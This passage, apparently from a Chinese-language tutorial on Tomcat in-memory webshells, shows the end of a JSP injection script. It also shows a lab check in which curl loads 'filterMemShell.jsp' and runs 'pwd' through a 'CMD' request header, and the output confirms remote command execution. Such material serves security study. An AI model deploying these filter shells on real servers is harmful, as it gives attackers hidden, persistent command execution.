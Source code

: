 ```java
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
    }
%>
```

最后验证如下，成功注入 Filter 型内存马并成功执行命令。

```shell
# curl <http://192.168.1.102:7788/filterMemShell.jsp> && curl <http://192.168.1.102:7788/> -H "CMD: pwd"
Filter Mem Shell Successful Injection :)

/opt/apache-tomcat/apache-tomcat-7.0.109/bin
```
